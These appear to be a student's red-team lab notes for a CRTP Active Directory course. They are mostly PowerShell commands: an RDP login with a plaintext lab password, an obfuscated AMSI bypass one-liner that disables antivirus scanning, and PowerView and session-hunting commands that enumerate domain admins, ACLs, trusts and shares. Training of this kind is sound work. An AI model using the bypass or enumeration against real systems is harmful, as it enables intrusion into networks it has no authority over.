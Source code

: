 ```powershell
xfreerdp3 /u:student548 /p:cAyF6wTLSydnL2M7 /v:172.16.100.48 /dynamic-resolution /drive:AD,/home/adot/certifications/crtp/lab
```

```powershell
net use A: \\TSCLIENT\Tools

A:\tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```powershell
copy A:\tools\* .
```

```powershell
Import-Module .\PowerView.ps1, .\PowerHuntShares.psm1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1, .\Invoke-SessionHunter.ps1
```

Basic enumeration
```powershell
Get-DomainUser | select cn

Get-DomainComputer | select dnshostname

Get-DomainGroupMember -Identity "Domain Admins" -recurse | select membername
Get-DomainGroupMember -Identity "Enterprise Admins" -recurse -domain moneycorp.local | select membername
```

ACLs - Perform on current user + groups user is in
```powershell
Get-DomainObjectAcl -SamAccountName student1 -ResolveGUIDs

Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "student548"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDP Users"}

Get-DomainObjectAcl -SearchBase "LDAP://CN=RDP Users,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local" -ResolveGUIDs -Verbose
```

OUs and GPOs
```powershell
Get-DomainOU -properties name
(Get-DomainOU -identity Applocked).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name

Get-DomainGPO | select displayname
Get-DomainGPO -ComputerIdentity dcorp-std548
```

Domain and Forest trusts
```powershell
Get-DomainTrust
Get-ForestDomain -Forest <forest>
```

Local Admin access?
```powershell
Find-PSRemotingLocalAdminAccess
```

Create a servers.txt file
```powershell
Get-DomainComputer | select cn
```

Find DA sessions
```powershell
Invoke-SessionHunter -NoPortScan -Targets C:\Users\Public\servers.txt
```

Find shares
```powershell
Invoke-HuntSMBShares -NoPing -OutputDirectory C:\Users\Public -HostList C:\Users\Public\servers.txt

Invoke-ShareFinder -Verbose
```

**REVIEW WHAT PRIVILEGES A USER HAS AFTER COMPROMISE**